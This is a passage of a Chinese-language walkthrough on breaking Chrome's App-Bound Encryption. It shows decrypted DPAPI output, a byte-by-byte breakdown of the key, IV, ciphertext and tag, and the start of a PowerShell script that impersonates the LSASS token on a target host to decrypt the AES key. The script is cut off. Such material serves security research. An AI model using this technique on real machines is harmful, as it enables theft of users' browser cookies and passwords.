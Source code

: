 如上图所示，返回结果中的 `data` 部分就是第二次解密得到的数据。我们可以将其转换为 Hexdump 的格式：

```Text
00000000  1f 00 00 00 02 43 3a 5c 50 72 6f 67 72 61 6d 20  |.....C:\Program |
00000010  46 69 6c 65 73 5c 47 6f 6f 67 6c 65 5c 43 68 72  |Files\Google\Chr|
00000020  6f 6d 65 5d 00 00 00 03 34 d7 b9 27 48 af 91 d1  |ome]....4×¹'H¯.Ñ|
00000030  ad 92 0b bf 91 79 09 4d 40 f2 af 73 ec fc 23 71  |...¿.y.M@ò¯sìü#q|
00000040  6f 08 0d a2 13 e3 e4 3d 39 7e 15 a3 7a 6d bb cf  |o..¢.ãä=9~.£zm»Ï|
00000050  ee 2f 05 db 88 b6 48 b6 9c d8 4b 04 50 82 49 38  |î/.Û.¶H¶.ØK.P.I8|
00000060  eb bc 8c 16 3b 38 89 bd 7f 44 24 aa c2 50 e8 f7  |ë¼..;8.½.D$ªÂPè÷|
00000070  8c 65 fd 7b c8 34 81 cc 61 71 1b ee 16 cc a9 c4  |.eý{È4.Ìaq.î.Ì©Ä|
00000080  09 bf 6f 73                                      |.¿os|
```

可以看到，经过两次 DPAPI 解密后，结果中首先出现 Chrome 的安装路径；然后跳过 `00 00 00 03` 标记开始，接下来的 92 个字节按顺序分别对应前文中提到的 ENCRYPTED_AES_KEY、IV、CIPHERTEXT 和 TAG：

```cpp
// ENCRYPTED_AES_KEY (32 bytes)
34 d7 b9 27 48 af 91 d1 ad 92 0b bf 91 79 09 4d 40 f2 af 73 ec fc 23 71 6f 08 0d a2 13 e3 e4 3d
// IV (12 bytes)
39 7e 15 a3 7a 6d bb cf ee 2f 05 db
// CIPHERTEXT (32 bytes)
88 b6 48 b6 9c d8 4b 04 50 82 49 38 eb bc 8c 16 3b 38 89 bd 7f 44 24 aa c2 50 e8 f7 8c 65 fd 7b
// TAG (16 bytes)
c8 34 81 cc 61 71 1b ee 16 cc a9 c4 09 bf 6f 73
```

> 这里为什么要关注 `00 00 00 03` 标记呢，因为它明确指示了 Chrome 使用何种算法对其 “App-Bound Key” 进行加密保护。不同标记对应的加密方案如下：
>
> -  `00 00 00 01`：使用 AES-256-GCM 算法，密钥硬编码在 “elevation_service.exe” 中。
> -  `00 00 00 02`：使用 ChaCha20_Poly1305 算法，密钥硬编码在 “elevation_service.exe” 中。
> -  `00 00 00 03`：使用 AES‑256‑GCM 算法，随机生成 `aes_key` 值作为密钥，并通过 CNG 对其进行保护。

（7）编写以下 PowerShell 脚本，在目标主机上模拟 LSASS 进程的令牌，调用 CNG API 对 ENCRYPTED_AES_KEY 部分进行解密。然后，将解密后的结果与 “elevation_service.exe” 中硬编码的静态常量做一次 XOR 运算，得到 `aes_key` 的明文。

- Decrypt-ChromeCngEncryptedAesKey.ps1

```powershell
# Decrypt-ChromeCngEncryptedAesKey.ps1
# Chrome AES Key Decryption via CNG with XOR Finalization

Add-Type -TypeDefinition @"
using System;
using System.Runtime.InteropServices;
using System.Security.Principal;
using System.Diagnostics;

public class SecurityInterop {
    [DllImport("advapi32.dll", SetLastError = true)]
    public static extern bool OpenProcessToken(IntPtr ProcessHandle, uint DesiredAccess, out IntPtr TokenHandle);
    
    [DllImport("advapi32.dll", SetLastError = true)]
    public static extern bool DuplicateToken(IntPtr ExistingTokenHandle, int ImpersonationLevel, out IntPtr DuplicateTokenHandle);
    
    [DllImport("advapi32.dll", SetLastError = true)]
    public static extern bool ImpersonateLoggedOnUser(IntPtr TokenHandle);
    
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool CloseHandle(IntPtr hObject);
    
    [DllImport("ncrypt.dll")]
    public static extern int NCryptOpenStorageProvider(out IntPtr hProvider, [MarshalAs(UnmanagedType.LPWStr)] string pszProviderName, uint dwFlags);
    
```